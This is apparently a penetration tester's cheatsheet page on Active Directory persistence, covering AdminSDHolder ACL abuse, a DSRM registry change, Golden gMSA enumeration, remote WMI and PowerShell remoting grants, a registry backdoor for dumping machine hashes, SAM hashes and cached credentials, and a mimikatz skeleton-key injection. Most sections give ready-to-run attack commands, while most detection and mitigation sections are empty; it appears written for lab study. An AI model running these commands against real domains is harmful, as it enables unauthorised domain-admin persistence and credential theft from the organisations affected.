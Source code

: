 ```yaml
---
layout: post
title: pen / ad / persist
category: pen
parent: cheatsheets
modified_date: 2024-11-28
permalink: /pen/ad/persist
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [adminsdholder](#adminsdholder)
* [dacl-abuse](#dacl-abuse)
* [dc-shadow](#dc-shadow)
* [dsrm](#dsrm)
* [golden-gmsa](#golden-gmsa)
* [security-descriptors](#security-descriptors)
	* [set-remoteWMI](#set-remoteWMI)
	* [set-remotePSRemoting](#set-remotePSRemoting)
	* [add-remoteRegBackdoor](#add-remoteRegBackdoor)
	* [set-remoteWMI](#set-remoteWMI-1)
	* [set-remotePSRemoting](#set-remotePSRemoting-1)
	* [add-remoteRegBackdoor](#add-remoteRegBackdoor-1)
* [skeleton-key](#skeleton-key)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='adminsdholder'></a>adminsdholder

🔑 KEYPOINTS :
- special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups
- roll backs the security permissions for protected accounts and group every 60 minutes, aka the Security Descriptor Propagator Update (SDProp) process.

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/adminsdholder](https://www.thehacker.recipes/ad/persistence/adminsdholder).
- [ired.team/abuse-adminsdholder](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
- [adsecurity.org/adminsdholder](https://adsecurity.org/?p=1906)

**play**
```powershell
# add the user to the adminsdholder group 
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All

# check the user has genericAll over the 'Domain Admins' group
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}

# add the user back to the 'Domain Admins' group
net group "domain admins" spotless /add /domain
```

**detect**

```powershell
# find all users with security ACLs set by SDProp using the PowerShell AD cmdlets
Import-Module ActiveDirectory
Get-ADObject -LDAPFilter “(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))” -Properties MemberOf,Created,Modified,AdminCount

# monitor the ACLs configured on the AdminSDHolder object. These should be kept at the default – it is not usually necessary to add other groups to the AdminSDHolder ACL.

# monitor users and groups with AdminCount = 1 to identify accounts with ACLs set by SDProp.

```


**mitigate**
* [iredteam / adminsdholder](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-play/how-to-play-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

## <a name='dacl-abuse'></a>dacl-abuse

🔑 KEYPOINTS :
![acerespond / win_00_sys_sd_ace](/assets/images/win_00_sys_sd_ace.jpg)
![thehackerrecipes / ad-persist-dacl-abuse-mindmap](/assets/images/ad-persist-dacl-abuse-mindmap-thehackerrecipes.png)

🕮 READ MORE at :
- [thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl/).
- [thehacker.recipes/ad/persistence/dacl](https://www.thehacker.recipes/ad/persistence/dacl/).
- [ired.team/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

**play**
**detect**
**mitigate**

## <a name='dc-shadow'></a>dc-shadow

🔑 KEYPOINTS :
- tbd 

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/dcshadow](https://www.thehacker.recipes/ad/persistence/dcshadow/).
- [ired.team/dcshadow](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

**play**
```powershell
```
**detect**
**mitigate**

## <a name='dsrm'></a>dsrm

**play**

🔑 KEYPOINTS :
- DSRM stands for 'Directory Services Restore Mode'
- allows remote access to the DC for the local admin accounts
- dump of local admins hash is required + activation of the feature in the **registry** 

🕮 READ MORE at :
- [hacktricks.xyz/dsrm-credentials](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dsrm-credentials)

```powershell
# check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior 

# create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD 

# change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  
``` 

**detect**
**mitigate**

## <a name='golden-gmsa'></a>golden-gmsa

**play**

🔑 KEYPOINTS :
- Group Managed Service Accounts (gMSA), which are managed directly by AD, with a strong password and a regular password rotation
- password are computed based on KDS root keys + gMSA account 'msDS-ManagedPassword' attribute value
- hack implemented by [semperis/goldenGMSA](https://github.com/Semperis/GoldenGMSA) tool 

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/goldengmsa](https://www.thehacker.recipes/ad/persistence/goldengmsa).

```powershell
# enumerate KDS root keys,  SID, RootKeyGuid, Password ID
GoldenGMSA.exe gmsainfo

# enumeration for a single gMSA
GoldenGMSA.exe gmsainfo --sid "S-1-5-21-[...]1586295871-1112"
```

**detect**
**mitigate**

- [trustedsec](https://www.trustedsec.com/blog/splunk-spl-queries-for-detecting-gmsa-attacks)

```powershell
```


## <a name='security-descriptors'></a>security-descriptors

🔑 KEYPOINTS :
- 

🕮 READ MORE at :
- [hacktricks/security-descriptors](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/security-descriptors)

### <a name='set-remoteWMI'></a>set-remoteWMI

**play**
```powershell
# grant WMI remote execution to a user
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose

# remove the grant of WMI remote execution
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose
```
**detect**
**mitigate**

### <a name='set-remotePSRemoting'></a>set-remotePSRemoting
**play**
```powershell
# grant PS remote execution to a user
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose

# remove the grant of PS remote execution
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove
```
**detect**
**mitigate**

### <a name='add-remoteRegBackdoor'></a>add-remoteRegBackdoor
**play**
```powershell
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
**detect**
**mitigate**


* [](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)

**detect**

**mitigate**

## <a name='skeleton-key'></a>skeleton-key

**play**

🔑 KEYPOINTS :
- hack that injects a master password into the lsass process on a DC
- enables the adversary to authenticate as any user without password
- does not persist to reboot

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/skeleton-key](https://www.thehacker.recipes/ad/persistence/skeleton-key/).

```powershell
# execution on a DC
invoke-mimi 'misc::skeleton'
```

**detect**

**mitigate**